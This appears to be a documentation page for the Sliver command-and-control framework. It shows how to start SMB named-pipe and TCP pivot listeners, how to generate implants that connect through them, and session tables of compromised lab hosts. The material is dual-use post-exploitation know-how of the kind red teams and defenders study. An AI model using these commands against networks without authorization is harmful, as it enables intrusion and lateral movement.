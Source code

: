 Sliver supports two types of pivot listeners: SMB and TCP pivots.

# SMB named pipe pivot

To start a SMB pivot listener, use the `named-pipe` command from a sliver session:

```
sliver (DELIGHTFUL_TELLER) > named-pipe -h

Start a named pipe pivot listener

Flags:
======
  -h, --help              display help
  -n, --name    string    name of the named pipe
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (DELIGHTFUL_TELLER) > named-pipe --name lol

[*] Listening on \\.\pipe\lol
```

Then, generate a new sliver using the `named-pipe` transport:

```
sliver > generate --named-pipe desk01//./pipe/lol --skip-symbols --save /tmp
```

The format for the `--named-pipe` parameter is `HOSTNAME//./pipe/PIPE_NAME` where:

- `HOSTNAME` is either the IP address, the machine name or the Fully Qualified Domain Name (FQDN) of the host
- `PIPE_NAME` is the same name as the one used in the `named-pipe` command

Once the new sliver runs, you should see something similar to this output:

```
[*] Session #5 YUMMY_C-CLAMP - \\DESK01\pipe\lol (APPSRV01) - windows/amd64 - Thu, 09 Jul 2020 10:54:16 CEST
sliver (FLAT_HUT) > sessions

ID  Name           Transport           Remote Address      Hostname  Username              Operating System  Last Check-in
==  ====           =========           ==============      ========  ========              ================  =============
4   FLAT_HUT       mtls                172.16.20.13:23424  DESK01    CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
5   YUMMY_C-CLAMP  named-pipe (PIVOT)  \\DESK01\pipe\lol   APPSRV01  CENTRALLAB\adminjdoe  windows/amd64     Thu, 09 Jul 2020 10:54:44 CEST
```

# TCP Pivot

To start a TCP pivot, use the `tcp-pivot` command from a sliver session:

```
sliver (CHUBBY_PAVILION) > tcp-pivot -h

Start a TCP pivot listener

Flags:
======
  -h, --help              display help
  -l, --lport   int       tcp listen port (default: 9898)
  -s, --server  string    interface to bind server to (default: 0.0.0.0)
  -t, --timeout int       command timeout in seconds (default: 60)

sliver (CHUBBY_PAVILION) > tcp-pivot -l 8000 -s 172.16.241.1

[*] Listening on tcp://172.16.241.1:8000
```

Then, use `generate` to create a new sliver that will connect through the pivot:

```
sliver > generate --skip-symbols --tcp-pivot 172.16.241.1:8000

```

Once this new sliver executes, you should see something like this:

```
[*] Session #3 DELIGHTFUL_TELLER - 172.16.241.1:8000 (DESKTOP-0QQJ4JL) - windows/amd64 - Thu, 09 Jul 2020 10:24:05 CEST

sliver > sessions

ID  Name               Transport    Remote Address      Hostname         Username             Operating System  Last Check-in
==  ====               =========    ==============      ========         ========             ================  =============
...
3   DELIGHTFUL_TELLER  tcp (PIVOT)  172.16.241.1:8000   DESKTOP-0QQJ4JL  DESKTOP-0QQJ4JL\lab  windows/amd64     Thu, 09 Jul 2020 10:24:08 CEST
```

